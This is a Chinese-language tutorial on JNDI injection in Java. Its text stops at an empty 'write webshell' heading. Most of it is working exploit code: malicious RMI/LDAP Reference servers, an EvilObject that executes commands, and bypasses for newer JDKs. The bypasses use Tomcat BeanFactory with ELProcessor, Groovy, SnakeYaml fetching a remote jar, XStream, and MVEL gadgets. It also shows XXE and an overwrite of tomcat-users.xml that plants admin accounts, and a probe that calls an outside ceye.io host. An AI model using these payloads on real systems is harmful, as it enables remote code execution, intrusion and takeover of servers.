## 版本问题

- RMI + JNDI Reference Payload

  JDK 6u132, JDK 7u122, JDK 8u113 中Java提升了JNDI 限制了Naming/Directory服务中JNDI Reference远程加载Object Factory类的特性。系统属性 `com.sun.jndi.rmi.object.trustURLCodebase`、`com.sun.jndi.cosnaming.object.trustURLCodebase` 的默认值变为false，即默认不允许从远程的Codebase加载Reference工厂类。如果需要开启 RMI Registry 或者 COS Naming Service Provider的远程类加载功能，需要将前面说的两个属性值设置为true

-  LDAP + JNDI Reference Payload
  Oracle JDK 11.0.1、8u191、7u201、6u211之后` com.sun.jndi.ldap.object.trustURLCodebase `属性的默认值被调整为false，还对应的分配了一个漏洞编号CVE-2018-3149

## 概述

`JNDI(Java Naming and Directory Interface)`，是SUN公司提供的一种标准的Java**命名**和**目录接口**，JNDI提供统一的[客户端](https://baike.baidu.com/item/客户端/101081)API，通过不同的访问提供者接口JNDI服务供应接口(SPI)的实现，由管理者将JNDI API映射为特定的命名服务和目录系统，使得Java[应用程序](https://baike.baidu.com/item/应用程序/5985445)可以和这些命名服务和[目录服务](https://baike.baidu.com/item/目录服务/10413830)之间进行交互，为开发人员提供了查找和访问各种命名和目录服务的通用、统一的接口

```java
JNDI 支持的服务主要有：DNS、LDAP、CORBA、RMI等等，其实常用的也就 RMI和 LDAP
```

在`JNDI`中，每个对象都有一组唯一的键值绑定，将每一个对象和名字绑定，使得应用程序可以通过名字搜索到指定的对象，而目录服务是命名服务的自然拓展，这两者的区别就是目录服务中对象不但可以有名称，还可以有属性；命名服务中对象是没有属性的

## 利用流程

首先我们来看看`RMI`，因为`RMI`注册表服务提供程序`(RMI Registry Service Provider)`允许应用程序通过`JNDI`应用接口对`RMI`中注册的远程对象进行访问，那么假如我们远程绑定一个恶意对象，是不是就可以了？

`RMI`的核心特点之一就是动态类加载，假如当前`Java`虚拟机中并没有此类，它可以去远程`URL`中去下载这个类的`class`，而这个`class`文件可以使用web服务的方式进行托管；而`rmi`注册表上可以动态的加载绑定多个`rmi`应用；对于客户端而言，服务端返回值也可能是一些子类的对象实例，而客户端并没有这些子类的class文件，如果需要客户端正确调用这些子类中被重写的方法，则同样需要有运行时动态加载额外类的能力。客户端使用了与RMI注册表相同的机制。RMI服务端将URL传递给客户端，客户端通过HTTP请求下载这些类。

就是利用`RMI`去动态加载类，`RMI`那里绑定了一个对象，然后通过`JNDI`去获取这个绑定的对象

但是在`JNDI`服务中，`RMI`服务端除了直接绑定远程对象以外，还可以通过`References`类来绑定一个外部的远程对象，这个远程对象是当前名称目录系统之外的对象，绑定了`Reference`之后，服务端会先通过`Referenceable.getReference()`获取绑定对象的引用，并且在目录中保存。当客户端在`lookup()`查找这个远程对象时，客户端会获取相应的`object factory`，最终通过`factory`类将`reference`转换为具体的对象实例。

## 探测类

### 探测链1

> MLet是JDK内置的类
>
> 探测xxx对应的类是否存在

```java
Registry registry = LocateRegistry.createRegistry(1099);
ResourceRef ref = new ResourceRef("javax.management.loading.MLet", null, "", "",
        true, "org.apache.naming.factory.BeanFactory", null);
ref.add(new StringRefAddr("forceString", "a=loadClass,b=addURL,c=loadClass"));
ref.add(new StringRefAddr("a", "xxx"));
ref.add(new StringRefAddr("b", "http://127.0.0.1:2333/"));
ref.add(new StringRefAddr("c", "Evil"));
ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
registry.bind("test", referenceWrapper);
```

### 探测链2

> 探测是否具有SnakeYaml依赖

```java
Registry registry = LocateRegistry.createRegistry(1099);
ResourceRef ref = new ResourceRef("org.yaml.snakeyaml.Yaml", null, "", "",true, "org.apache.naming.factory.BeanFactory", null);
String yaml = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://tcbua9.ceye.io/\"]]]]";
ref.add(new StringRefAddr("forceString", "a=load"));
ref.add(new StringRefAddr("a", yaml));
ReferenceWrapper referenceWraper = new ReferenceWrapper(ref);
registry.bind("test", referenceWrapper);
```

###  探测链3

> 探测其他存在的类
>
> 需要SnakeYaml依赖

```java
Registry registry = LocateRegistry.createRegistry(1099);
ResourceRef ref = new ResourceRef("org.yaml.snakeyaml.Yaml", null, "", "",true, "org.apache.naming.factory.BeanFactory", null);
String yaml = "{!!java.util.Map {}: 0,!!java.net.URL [\"http://tcbua9.ceye.io/\"]: 1}";
ref.add(new StringRefAddr("forceString", "a=load"));
ref.add(new StringRefAddr("a", yaml));
ReferenceWrapper referenceWraper = new ReferenceWrapper(ref);
registry.bind("test", referenceWrapper);	
```

- 

## 简单利用

### 条件

需要保证JDK < 8u191

后版本存在trustCodebaseURL的限制，只信任已有的codebase地址，不再能够从指定codebase中下载字节码

在`6u141,7u131,8u121`之后，新增了 `com.sun.jndi.rmi.object.trustURLCodebase`选项，默认为`false`，禁止`RMI`和`CORBA`协议使用远程`codebase`选项，虽然该更新阻止了`RMI`和`CORBA`触发漏洞，但是我们仍然可以使用`LDAP`协议进行攻击，随后在`6u211,7u201.8u191`中，又新增了 `com.sun.jndi.ldap.object.trustURLCodebase`选项，默认为`false`，禁止`LDAP`协议使用远程`codebase`选项

### 利用`Reference`

#### 简介

看看`Reference`类的关键代码：

```java
COPYpublic class Reference implements Cloneable, java.io.Serializable {
    protected String className;
    protected Vector<RefAddr> addrs = null;
    protected String classFactory = null;
    protected String classFactoryLocation = null;
    public Reference(String className) {
        this.className  = className;
        addrs = new Vector();
    }
    public Reference(String className, String factory, String factoryLocation) {
        this(className);
        classFactory = factory;
        classFactoryLocation = factoryLocation;
    }
}
```

其实主要就是三个参数：`className、classFactory、classFactoryLocation`

- `classname`：远程加载时所使用的类的名字，可以随便取
- `classFactory`：`class`中需要实例化类的名称
- `classFactoryLocation`：加载`class`的远程地址，可以是`file/ftp/http`等协议

#### 实操

1. 一个编译后的字节码文件

```java
import java.io.IOException;

public class EvilObject {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}

```

2. 使用`Reference`创建一个恶意的rmi服务端，这里需要ReferenceWrapper包装

```java
package pers.jndi;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;


public class JNDIServer {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        String ClassName = "evilObject";
        String FactoryName = "evilObject";
        String FactoryLocationURL = "http://127.0.0.1:8888/";

        //创建注册中心
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference(ClassName, FactoryName, FactoryLocationURL);
        //因为这个Reference类没有继承UnicastRemoteObject，不能绑定在rmi的注册表中
        //我们使用ReferenceWrapper类包装一下Reference类对象
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("reference", referenceWrapper);
    }
}
```

3. 创建受害方控制`lookup`的`url`

```java
package pers.jndi;

import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class JNDIClient {
    public static void main(String[] args) throws NamingException {
        String url = "rmi://127.0.0.1:1099/reference";
        Context context = new InitialContext();
        //动态协议，动态加载工厂类
        context.lookup(url);
    }
}

```

#### 注意

同样可以通过ldap搭建服务端，之后使用`ldap://xxxx.xxx.xx.xx/xx`

## Bypass High Version

### JDK 8u191+等高版本绕过方法

1. 找到一个受害者本地CLASSPATH中的类作为恶意的Reference Factory工厂类，并利用这个本地的Factory类执行命令。
2. 利用LDAP直接返回一个恶意的序列化对象，JNDI注入依然会对该对象进行反序列化操作，利用反序列化Gadget完成命令执行。

### 利用本地Class作为Reference Factory

#### ReferenceFactory 条件

工厂类必须实现 javax.naming.spi.ObjectFactory 接口，并且至少存在一个 getObjectInstance() 方法。

#### org.apache.naming.factory.BeanFactory

##### 条件

- 传入的Reference类必须要是ResourceRef类

- 需要存在Tomcat依赖



`org.apache.naming.factory.BeanFactory`在 `getObjectInstance()` 中会通过反射的方式实例化Reference所指向的任意Bean Class，并且会调用setter方法为所有的属性赋值。而该Bean Class的类名、属性、属性值，全都来自于Reference对象，均是攻击者可控的

###### 目标Bean Class条件

- 必须有一个无参构造方法

- 有public的setter方法且参数为一个String类型。

  事实上，这些setter不一定需要是set..开头的方法，根据`org.apache.naming.factory.BeanFactory`中的逻辑，我们可以把某个方法强制指定为setter。

##### use `org.apache.naming.factory.BeanFactory`+`javax.el.ELProcessor#eval`

> 通过BeanFactory#getObjectInstance()方法实例化Reference，且可控
>
> 传入的Reference类必须要是ResourceRef类
>
> 需要存在Tomcat依赖

```java
package pers.jndi;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.NamingException;
import javax.naming.StringRefAddr;
import java.net.MalformedURLException;
import java.rmi.AlreadyBoundException;
import java.rmi.Naming;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class JndiElProcessor {
    public static void main(String[] args) throws RemoteException, NamingException, MalformedURLException, AlreadyBoundException {
        Registry registry = LocateRegistry.createRegistry(2000);
        //LocateRegistry.createRegistry(9999);
// 实例化Reference，指定目标类为javax.el.ELProcessor，工厂类为org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
// 强制将 'x' 属性的setter 从 'setX' 变为 'eval', 详细逻辑见 BeanFactory.getObjectInstance 代码
        ref.add(new StringRefAddr("forceString", "KINGX=eval"));
// 利用表达式执行命令
        ref.add(new StringRefAddr("KINGX", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()\")"));

        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("Exploit", referenceWrapper);
        System.out.println("MRI服务启动，服务地址为 rmi://127.0.0.1:2000/Exploit");

    }
}
```

##### use  `org.apache.naming.factory.BeanFactory` +`groovy.lang.GroovyClassLoader#parseClass`

> 需要存在Tomcat组件
>
> 和Groovy相关依赖

1、存在公有的无参构造函数

2、存在一个命令执行函数并且该函数只有一个参数，这个参数的类型为String类型

GroovyClassLoader#parseClass方法满足，之后使用Groovy加载恶意字符串这里使用**@ASTTest**注解绕过沙箱



```java
package pers.jndi;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.NamingException;
import javax.naming.StringRefAddr;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class JDNIGroovyClassLoader {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        Registry registry = LocateRegistry.createRegistry(9999);
        ResourceRef ref = new ResourceRef("groovy.lang.GroovyClassLoader", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "x=parseClass"));
        String s = String.format("@groovy.transform.ASTTest(value={\nassert java.lang.Runtime.getRuntime().exec(\"%s\")\n})\ndef x\n", "calc.exe");
        ref.add(new StringRefAddr("x", s));
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("test", referenceWrapper);
    }
}
```

###### 另一个方法

> 在`GroovyClassLoader`中仍然存在另一个方法`addClasspath` `loadClass`可以满足条件且利用

```java
Registry registry = LocateRegistry.createRegistry(9999);
ResourceRef ref = new ResourceRef("groovy.lang.GroovyClassLoader", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
ref.add(new StringRefAddr("forceString", "x=addClasspath,y=loadClass"));
String s = String.format("@groovy.transform.ASTTest(value={\nassert java.lang.Runtime.getRuntime().exec(\"%s\")\n})\ndef x\n", "calc.exe");
ref.add(new StringRefAddr("x", "http://127.0.0.1:9999"));
ref.add(new StringRefAddr("y", "EvilGroovy"));
ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
registry.bind("test", referenceWrapper);
```

```groovy
// EvilGroovy.groovy
@groovy.transform.ASTTest(value={assert 
    java.lang.Runtime.getRuntime().exec("calc")})
class Person{}
```

##### Groovy相关的其他方法

###### 使用@Grab注解加载远程恶意类

```java
package pers.jndi;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.NamingException;
import javax.naming.StringRefAddr;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class JNDIGroovyClassLoader1 {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        Registry registry = LocateRegistry.createRegistry(9999);
        ResourceRef ref = new ResourceRef("groovy.lang.GroovyClassLoader", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "x=parseClass"));
        //String s = String.format("@groovy.transform.ASTTest(value={\nassert java.lang.Runtime.getRuntime().exec(\"%s\")\n})\ndef x\n", "calc.exe");
        ref.add(new StringRefAddr("x", "@GrabConfig(disableChecksums=true)\n" +
                "    @GrabResolver(name=\"Poc\", root=\"http://127.0.0.1:8888/\")\n" +
                "    @Grab(group=\"Poc\", module=\"EvilJar\", version=\"0\")\n" +
                "    import java.lang.String"));
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("test", referenceWrapper);
    }
}
```

###### 使用`groovy.lang.GroovyShell#evaluate` + `@Grab`

同样满足条件



```java
package pers.jndi;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.NamingException;
import javax.naming.StringRefAddr;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class JNDIGroovyShell {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        Registry registry = LocateRegistry.createRegistry(9999);
        ResourceRef ref = new ResourceRef("groovy.lang.GroovyShell", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "x=evaluate"));
        ref.add(new StringRefAddr("x", "@GrabConfig(disableChecksums=true)\n" +
                "    @GrabResolver(name=\"Poc\", root=\"http://127.0.0.1:8888/\")\n" +
                "    @Grab(group=\"Poc\", module=\"EvilJar\", version=\"0\")\n" +
                "    import java.lang.String"));
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("test", referenceWrapper);
    }
}
```

###### 使用`groovy.lang.GroovyShell#evaluate` + `@ASTTest`

```java
        Registry registry = LocateRegistry.createRegistry(9999);
        ResourceRef ref = new ResourceRef("groovy.lang.GroovyShell", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "x=evaluate"));
        ref.add(new StringRefAddr("x", "    @groovy.transform.ASTTest(value={\n" +
                "        assert Runtime.getRuntime().exec(\"calc\")\n" +
                "    })\n" +
                "    def x"));
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("test", referenceWrapper);
```

###### 使用`groovy.lang.GroovyShell#parse` + `@ASTTest / @Grab`

可以发现同样满足条件：



```java
        Registry registry = LocateRegistry.createRegistry(9999);
        ResourceRef ref = new ResourceRef("groovy.lang.GroovyShell", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "x=parse"));
        ref.add(new StringRefAddr("x", "    @groovy.transform.ASTTest(value={\n" +
                "        assert Runtime.getRuntime().exec(\"calc\")\n" +
                "    })\n" +
                "    def x"));
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("test", referenceWrapper);
```

```java
        Registry registry = LocateRegistry.createRegistry(9999);
        ResourceRef ref = new ResourceRef("groovy.lang.GroovyShell", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "x=parse"));
        ref.add(new StringRefAddr("x", "@GrabConfig(disableChecksums=true)\n" +
                "    @GrabResolver(name=\"Poc\", root=\"http://127.0.0.1:8888/\")\n" +
                "    @Grab(group=\"Poc\", module=\"EvilJar\", version=\"0\")\n" +
                "    import java.lang.String"));
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("test", referenceWrapper);
```

##### use  `org.apache.naming.factory.BeanFactory` +`SnakeYaml`

> tomcat组件
> SnakeYaml组件

```java
Registry registry = LocateRegistry.createRegistry(1099);
ResourceRef ref = new ResourceRef("org.yaml.snakeyaml.Yaml", null, "", "",true, "org.apache.naming.factory.BeanFactory", null);
String yaml = "!!javax.script.ScriptEngineManager [\n" +
        "  !!java.net.URLClassLoader [[\n" +
        "    !!java.net.URL [\"http://127.0.0.1:8888/exp.jar\"]\n" +
        "  ]]\n" +
        "]";
ref.add(new StringRefAddr("forceString", "a=load"));
ref.add(new StringRefAddr("a", yaml));
ReferenceWrapper referenceWraper = new ReferenceWrapper(ref);
registry.bind("test", referenceWrapper);
```

##### use `org.apache.naming.factory.BeanFactory` + `XStream`

> tomcat组件
>
> XStream <= 1.4.17

```java
private static ResourceRef tomcat_xstream(){
    ResourceRef ref = new ResourceRef("com.thoughtworks.xstream.XStream", null, "", "",
            true, "org.apache.naming.factory.BeanFactory", null);
    String xml = "<java.util.PriorityQueue serialization='custom'>\n" +
            "  <unserializable-parents/>\n" +
            "  <java.util.PriorityQueue>\n" +
            "    <default>\n" +
            "      <size>2</size>\n" +
            "    </default>\n" +
            "    <int>3</int>\n" +
            "    <dynamic-proxy>\n" +
            "      <interface>java.lang.Comparable</interface>\n" +
            "      <handler class='sun.tracing.NullProvider'>\n" +
            "        <active>true</active>\n" +
            "        <providerType>java.lang.Comparable</providerType>\n" +
            "        <probes>\n" +
            "          <entry>\n" +
            "            <method>\n" +
            "              <class>java.lang.Comparable</class>\n" +
            "              <name>compareTo</name>\n" +
            "              <parameter-types>\n" +
            "                <class>java.lang.Object</class>\n" +
            "              </parameter-types>\n" +
            "            </method>\n" +
            "            <sun.tracing.dtrace.DTraceProbe>\n" +
            "              <proxy class='java.lang.Runtime'/>\n" +
            "              <implementing__method>\n" +
            "                <class>java.lang.Runtime</class>\n" +
            "                <name>exec</name>\n" +
            "                <parameter-types>\n" +
            "                  <class>java.lang.String</class>\n" +
            "                </parameter-types>\n" +
            "              </implementing__method>\n" +
            "            </sun.tracing.dtrace.DTraceProbe>\n" +
            "          </entry>\n" +
            "        </probes>\n" +
            "      </handler>\n" +
            "    </dynamic-proxy>\n" +
            "    <string>calc</string>\n" +
            "  </java.util.PriorityQueue>\n" +
            "</java.util.PriorityQueue>";
    ref.add(new StringRefAddr("forceString", "a=fromXML"));
    ref.add(new StringRefAddr("a", xml));
    return ref;
}
```

##### use  `org.apache.naming.factory.BeanFactory` +  `org.mvel2.sh.ShellSession`

> 需要tomcat组件
>
> MVEL组件

```java
Registry registry = LocateRegistry.createRegistry(1099);
ResourceRef ref = new ResourceRef("org.mvel2.sh.ShellSession", null, "", "",
        true, "org.apache.naming.factory.BeanFactory", null);
ref.add(new StringRefAddr("forceString", "a=exec"));
ref.add(new StringRefAddr("a",
        "push Runtime.getRuntime().exec('calc');"));
ReferenceWrapper referenceWraper = new ReferenceWrapper(ref);
registry.bind("test", referenceWraper);
```

首先因为`org.mvel2.sh.ShellSession`类满足beanFactory的条件，之后在它的`exec`方法中会调用`_exec`，其中将会执行很多命令，其中包括有`push`命令，他会首先取出第一个输入判断执行什么命令，这里是push所以跟进`PushContext`类



在这个类中他会调用`MVEL#eval`进行命令的执行



##### use  `org.apache.naming.factory.BeanFactory` +  `com.sun.glass.utils.NativeLibLoader`

> JDK内置的类

```java
private static ResourceRef tomcat_loadLibrary(){
    ResourceRef ref = new ResourceRef("com.sun.glass.utils.NativeLibLoader", null, "", "",
            true, "org.apache.naming.factory.BeanFactory", null);
    ref.add(new StringRefAddr("forceString", "a=loadLibrary"));
    ref.add(new StringRefAddr("a", "/../../../../../../../../../../../../tmp/libcmd"));
    return ref;
}
```

他的`loadLibrary`方法可以加载指定路径的动态链接库

可以使用远程http，获取文件上传写入动态库文件

#### org.apache.catalina.users.MemoryUserDatabaseFactory

> 实现了`javax.naming.spi.ObjectFactory`接口，存在`getObjectInstance`方法

##### XXE

在getObjectInstance方法中创建了`MemoryUserDatabase`并从reference中取出`pathname`， 之后调用他的`open`方法



在其中将其作为pathname作为url请求xml，之后解析这个xml, 造成XXE注入



```java
Registry registry = LocateRegistry.createRegistry(1099);
ResourceRef ref = new ResourceRef("org.apache.catalina.UserDatabase", null, "", "",
        true, "org.apache.catalina.users.MemoryUserDatabaseFactory", null);
ref.add(new StringRefAddr("pathname", "http://127.0.0.1:8888/Evil.xml"));
ReferenceWrapper referenceWraper = new ReferenceWrapper(ref);
registry.bind("test", referenceWraper);
```



##### create tomcat's admin

主要是通过`getObjectInstance`方法中的save造成写入文件

他会首先访问到`http://127.0.0.1:8888/../../conf/tomcat-users.xml`, 之后直接覆盖掉了Base/conf/tomcat-user.xml

```java
Registry registry = LocateRegistry.createRegistry(1099);
ResourceRef ref = new ResourceRef("org.apache.catalina.UserDatabase", null, "", "",
        true, "org.apache.catalina.users.MemoryUserDatabaseFactory", null);
ref.add(new StringRefAddr("pathname", "http://127.0.0.1:8888/../../conf/tomcat-users.xml"));
ref.add(new StringRefAddr("readonly", "false"));	
ReferenceWrapper referenceWraper = new ReferenceWrapper(ref);
registry.bind("test", referenceWraper);
```

```xml
<!-- tomcat-users.xml -->
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users>
<role rolename="manager-gui"/>
<role rolename="manager-script"/>
<user username="tomcat" password="tomcat" roles="manager-gui"/>
<user username="admin" password="123456" roles="manager-script,manager-gui"/>
</tomcat-users>
```

##### write webshell

```java
